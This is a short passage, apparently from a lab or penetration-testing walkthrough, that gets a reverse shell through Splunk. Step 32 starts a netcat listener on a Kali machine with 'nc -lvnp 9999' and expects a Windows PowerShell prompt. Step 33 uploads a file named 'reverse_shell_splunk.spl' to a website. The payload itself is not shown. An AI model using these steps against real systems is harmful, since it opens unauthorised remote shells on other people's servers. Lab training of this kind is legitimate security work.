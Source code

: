 ![](images/media/image51.png){width="6.288888888888889in"
height="4.317361111111111in"}

**32.** INFO: Start NETCAT NC LISTENER

**RUN in Kali VM: nc -lvnp 9999**

**[IMPORTANT: Press ENTER button to get the line =\>]{.mark} PS
C:\\Windows\\system32\>**

![](images/media/image52.png){width="3.568720472440945in"
height="0.7125590551181102in"}

**33.** INFO: Upload **reverse_shell_splunk.spl** to WEBSITE

![](images/media/image53.png){width="6.29375in"
height="0.7916666666666666in"}
